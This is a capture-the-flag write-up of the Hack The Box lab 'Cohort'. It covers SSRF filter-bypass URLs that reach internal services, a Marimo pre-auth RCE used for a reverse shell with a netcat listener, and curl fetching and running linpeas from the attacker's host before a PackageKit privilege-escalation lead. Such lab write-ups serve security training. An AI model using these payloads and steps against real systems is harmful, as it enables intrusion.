




# Cohort — Hack The Box Write-Up

- **Target:** `10.129.215.166` (`cohort.htb`)
- **Focus:** Web enumeration, initial access, privilege escalation

## 1. Enumeration & Reconnaissance
Ran a service and default script scan (`nmap -sCV 10.129.215.166 -oA /home/kali/cohort/cohort`):

- **Open Ports:** `22/tcp` (OpenSSH 9.6p1), `80/tcp` (Nginx 1.24.0 -> redirects to `https://cohort.htb/`), and `443/tcp` (Nginx 1.24.0, TLS cert for `cohort.htb` and `*.cohort.htb`).
- **Next Step:** Add `cohort.htb` to `/etc/hosts`, check the web app, and watch for subdomains (`*.cohort.htb`).

## 2. Web Enumeration & SSRF Discovery
Exploring `https://cohort.htb` surfaced two primary leads:

- **Potential Usernames:** Identified two team members on the main site — **Mara Quinteros** and **Devin Oyelaran** — giving us candidate usernames for later authentication or vhost enumeration.
- **Suspected SSRF Surface:** Under **Client Insights** ("Register a report source URL"), the form takes a URL and states it fetches and previews the feed while blocking internal and loopback addresses.

Testing `http://10.10.16.229/test.csv` against a local Python HTTP server (`python3 -m http.server 80`) confirmed outbound server-side fetching:

- **SSRF Confirmed:** The target requested `/test.csv` and returned `Reachable. HTTP 200 (text/csv)` with the file preview.
- **Filter Bypass (`0.0.0.0`):** Submitting `http://0.0.0.0/status` bypassed the internal/loopback check and returned JSON from `cohort-edge` (`nginx`).

- **Leaked Upstreams:** The response exposed internal targets including `cohort.htb` (`/var/www/cohort`), `/api/` (`127.0.0.1:5000`), and `nb-1be3782a8afd3ad5.cohort.htb` (`127.0.0.1:8888`, an internal analyst workspace).
- **Next Step:** Check `nb-1be3782a8afd3ad5.cohort.htb` (and test internal ports `5000` / `8888` or `/api/` endpoints) to see what is exposed and how to pivot.

## 3. Internal Workspace Enumeration & Initial Access
Checking `nb-1be3782a8afd3ad5.cohort.htb` led to a Marimo notebook login screen; without credentials, I pivoted back to the SSRF to inspect the internal `8888` service:

- **Version Leaked (`0.20.4`):** Submitting `http://127.1:8888/api/version` through the URL validator returned `0.20.4`.
- **Known Vulnerability (`CVE-2026-39987` / `GHSA-2679-6mx9-h9xc`):** Marimo versions prior to `0.23.0` have a pre-authentication RCE flaw on the `/terminal/ws` WebSocket endpoint that allows an unauthenticated interactive shell.

After activating my Python virtual environment (`source myenv/bin/activate`) and starting a Netcat listener on port `5555` (`nc -nlvp 5555`), I ran the exploit against `https://nb-1be3782a8afd3ad5.cohort.htb`:

- **Foothold Achieved:** Connected to `wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws` and received a reverse shell as `marimo` (`uid=1000(marimo)`).
- **User Flag:** Retrieved `user.txt` (`adb5c4cd99b2d0e958bd271561e666f0`).
- **Next Step:** Enumerate local privileges (`sudo -l`, SUID binaries, cron jobs, services, and `notebooks/`) to find a privilege escalation path to `root`.

## 4. Privilege Escalation Enumeration
Started a local HTTP server on Kali (`python3 -m http.server 8000` in `~/Tools/peass/linpeas`) and transferred `linpeas.sh` to the target as `marimo`:

- **Transfer & Execution:** Downloaded `linpeas.sh` via `curl -s http://10.10.16.229:8000/linpeas.sh -o linpeas.sh`, set executable permissions (`chmod +x linpeas.sh`), and ran `./linpeas.sh`.

LinPEAS flagged a high-value local privilege escalation lead in PackageKit:

- **PackageKit (`CVE-2026-41651` / Pack2TheRoot):** Detected PackageKit `1.2.8-2ubuntu1.2`, which is below the Ubuntu 24.04 patched version (`1.2.8-2ubuntu1.5`). CVE-2026-41651 is a TOCTOU race condition on transaction flags in PackageKit that allows local privilege escalation.
- **Next Step:** Exploit `CVE-2026-41651` (Pack2TheRoot) to escalate from `marimo` to `root` and retrieve `root.txt`.
